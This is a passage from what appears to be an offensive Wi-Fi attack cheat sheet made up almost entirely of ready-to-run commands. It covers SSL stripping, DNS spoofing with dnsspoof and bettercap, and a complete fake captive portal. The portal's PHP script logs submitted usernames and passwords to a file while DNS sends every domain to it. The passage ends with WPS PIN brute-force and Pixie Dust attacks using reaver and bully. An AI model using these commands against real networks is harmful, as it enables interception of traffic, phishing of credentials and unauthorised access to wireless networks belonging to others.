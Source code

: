 ```bash
sslstrip -l 8080 -w /tmp/sslstrip.log

# DNS Spoofing
cat > /tmp/dns_hosts << EOF
<YOUR_IP> target.com
EOF
dnsspoof -i wlan0 -f /tmp/dns_hosts

# bettercap DNS Spoof
> set dns.spoof.domains target.com
> set dns.spoof.address <YOUR_IP>
> dns.spoof on
```

### Captive Portal

```bash
# Apache Setup
apt-get install apache2 php libapache2-mod-php
systemctl start apache2

# Create Fake Login
cat > /var/www/html/index.html << EOF
<form action="login.php" method="POST">
  <input type="text" name="username" placeholder="Username">
  <input type="password" name="password" placeholder="Password">
  <button type="submit">Login</button>
</form>
EOF

# PHP Logger
cat > /var/www/html/login.php << 'EOF'
<?php
$user = $_POST['username'];
$pass = $_POST['password'];
file_put_contents('/tmp/creds.txt', "$user:$pass\n", FILE_APPEND);
header('Location: http://google.com');
?>
EOF

# DNS Redirect (all domains to captive portal)
# In dnsmasq.conf:
address=/#/<YOUR_IP>

# Check Captured Creds
tail -f /tmp/creds.txt
```

### WPS Attacks

```bash
# Scan for WPS
wash -i wlan0

# Reaver Attack
reaver -i wlan0 -b <BSSID> -vv
reaver -i wlan0 -b <BSSID> -d 5 -vv          # With delay
reaver -i wlan0 -b <BSSID> -K -vv            # Pixie Dust

# Bully (alternative)
bully -b <BSSID> -d wlan0                     # Pixie Dust
bully -b <BSSID> wlan0                        # Standard
```
